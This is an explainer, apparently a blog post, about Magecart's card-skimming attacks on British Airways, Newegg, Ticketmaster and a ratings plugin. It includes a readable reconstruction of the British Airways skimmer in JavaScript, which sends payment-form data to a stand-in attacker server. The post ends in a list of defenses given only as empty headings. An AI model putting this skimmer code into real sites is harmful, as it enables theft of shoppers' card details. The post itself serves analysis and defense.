




In the last month a group of hackers called Magecart came back striking in full force.

They first came in the news back in 2015 when [RiskIQ](https://riskiq.com) found out they injected code in Magento's "Magecart" shopping software.

The attacks they architected have caused massive damages to companies like British Airways, Ticketmaster and even Newegg.

This group is specialised in card skimming payment forms on the internet.

## How?


Their attacks are all based on injecting malicious javascript into websites.

The main attack vector are hacked CDNs and third party plugins on websites.

The js inserted in websites usually is pretty straightforward: on form submission, a POST request with all the sensitive information is sent to an external server that is set up to receive it.


The code in the British Airways attack was the following:


Here's a more readable version of it:
```javascript
    window.onload = function() {
        // Triggering the function when users submit payment details
        jQuery(".btn-success").bind ("mouseup touchend", function(t) {
            var e={};
            // Copying the data inside of the payment form
            jQuery("#payment-form").serializeArray().map(function(t){
                e[t.name] = t.value});
            // Creating a JSON with the credit card data    
            var n=JSON.stringify(e);
            setTimeout(function() {
                    jQuery.ajax({
                        // POST request to Magecart controlled server
                        type:"POST",
                        async:!0,
                        // Malicious Server controlled by Magecart
                        url:"https://malicious-service.com/carding-api/",
                        data:n,
                        dataType:"application/json"})},
                500)})};

```


## CDN Security

These attacks usually are aimed towards large corporations that are attacked, either **directly**, or in **indirect ways**.

An example of indirect attack that happened this September, when the group targeted [Shopper Approved](https://www.shopperapproved.com), an ecommerce plugin for customer rating.

In this case the attack targeted a static resource that was used by multiple websites.

Researchers at [RiskIQ](https://www.riskiq.com) found obfuscated javascript code included in the `certificate.js` file.

Original file 👇


Malicious file 👇


The code shown operates exactly how you'd imagine and can be roughly translated as the readable reconstruction shown above.

### Newegg Breach

In the Newegg attack, the criminals registered a domain called **neweggstats.com** and used it paired with a paid Comodo TLS certificate to give legitimacy to their page.

This time the card skimmer was placed directly inside the source code of the payment processing page, this means Newegg was compromised **directly**.

The code used in this attack was the same as the one used in the British Airways hack, adapted to fit the new victim's website.

### Ticketmaster Attack

A fourth attack targeted Ticketmaster through Inbenta, a third party tool that "Uses Artificial Intelligence and NLP to increase customer happiness and your company's bottomline".

This service is integrates through custom subdomains for every client.

So we should check for the Ticketmaster subdomains that are:
```markdown
ticketmasterat.inbenta.com
ticketmasterau.inbenta.com
ticketmasterbe.inbenta.com
ticketmasterde.inbenta.com
ticketmasterdk.inbenta.com
ticketmasterfi.inbenta.com
ticketmasterfr.inbenta.com
ticketmasterie.inbenta.com
ticketmasternl.inbenta.com
ticketmasterno.inbenta.com
ticketmasternz.inbenta.com
ticketmasterpl.inbenta.com
ticketmasterse-avatar.inbenta.com
ticketmasterse.inbenta.com
ticketmastertr.inbenta.com
ticketmasteruk.inbenta.com
ticketmasterus.inbenta.com
```

Inside the Ticketmaster UK js resources there was a function that inserted an external script from Inbenta.



And right there you could find the malicious code by Magecart above the original script:



The attackers initially (on June 12th) even deleted the original code by Inbenta and only included their code.



In this case Inbenta's operations were surely compromised directly as the hackers gained enough access to edit as their pleasing the static assets multiple times.

Other Ticketmaster websites around the world were also breached either via Inbenta or via another third party plugin called SOCIAPlus, an "E-commerce Big & Social analysis service".

These breaches are only the tip of the Iceberg.

Magecart is now targeting the backbones of the internet.

Sometimes they even have the audacity of blackmailing website admins, like in this case:



It's clear that these attacks are a dangerous problem, so let's try and figure out the best way organisations can tackle them.

## Neutralising Attacks

Now that we've understood how the group organises its attacks let's figure out and evaluate strategies to tackle them.

### Subresource Integrity

### Crawling

### Detecting Code Obfuscation

### Avoiding external CDNs

### Hashing Values and checking diffs